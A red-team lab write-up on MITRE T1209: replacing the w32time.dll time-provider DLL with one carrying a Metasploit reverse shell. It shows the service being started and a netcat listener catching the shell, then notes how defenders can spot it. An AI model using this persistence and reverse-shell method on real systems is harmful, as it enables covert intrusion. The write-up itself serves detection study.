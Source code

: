```yaml
---
description: Persistence
---
```


# T1209: Hijacking Time Providers

## Execution

Service w32time depends on the DLL specified in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\`. 

If an attacker can replace the `w32time.dll` with his malicious DLL or modify the DllName value to point to his malicious binary, he can get that malicious code executed. 

In this lab, we will just swap out the `w32time.dll` with our own. It contains a metasploit reverse shell payload:

![](../.gitbook/assets/time-registry.png)

Starting the w32time service:

```bash
C:\Users\mantvydas\Start Menu\Programs\Startup>sc.exe start w32time

SERVICE_NAME: w32time
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 964
        FLAGS              :
```

Sends a reverse shell to the attacker:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~# nc -lvvp 443
listening on [any] 443 ...
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 64634
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

The shell is running as a child of svchost which is expected as this is where all the services originate from:

![](../.gitbook/assets/time-ancestry.png)

Note that the code is running under the context of `LOCAL SERVICE`:

![](../.gitbook/assets/time-context.png)

This time and time again shows that binaries running off of svchost.exe, especially if they are rundll32 and are making network connections, should be a good sign for you to start investigating the machine closer.

{% embed url="https://attack.mitre.org/wiki/Technique/T1209" %}

